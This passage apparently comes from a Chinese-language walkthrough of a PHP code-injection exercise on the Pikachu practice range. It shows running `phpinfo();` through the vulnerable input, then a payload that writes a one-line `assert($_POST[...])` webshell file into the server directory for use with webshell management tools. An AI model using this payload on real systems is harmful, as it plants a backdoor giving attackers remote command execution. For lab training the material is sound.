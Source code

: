 输入`phpinfo();`, 随后后台会使用php解析器去解析此代码 

![动画](pikachu靶场/动画-16696230511761.gif)	

输入`fputs(fopen('shell.php','w'),'<?php assert($_POST[123]);?>');`, 会在当前网页所在目录生成一句话木马文件, 后续可用webshell管理工具进行连接

<img src="pikachu靶场/image-20221128162841588.png" alt="image-20221128162841588" style="zoom:67%;" />		

